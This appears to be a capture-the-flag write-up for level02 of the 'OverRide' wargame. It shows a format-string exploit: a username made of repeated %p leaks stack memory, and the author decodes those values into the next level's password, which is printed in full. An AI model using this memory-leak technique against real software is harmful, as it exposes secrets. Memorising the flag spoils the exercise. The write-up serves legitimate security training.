 After analyzing the source code, we can see that it executes /bin/sh only if the password matches the flag.

We also noticed an unprotected printf function used to display the username, which we can exploit to display the content of the line file = fopen("/home/users/level03/.pass", "r");.

First, let's test this:

``` Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
0x7fffffffe500 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

We can see five pointers:

0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d


Converting these to ASCII gives us: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M.

``` Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
--[ Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
*****************************************
unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M does not have access!
```

Next, we reverse the pointer order before converting to ASCII:

0x48336750664b394d 0x354a35686e475873 0x377a7143574e6758 0x45414a3561733951 0x756e505234376848

H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH

This gives us: `H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH`.

Reversing this string, we get: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`.

Let's test this:

``` Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H!
$ 
```
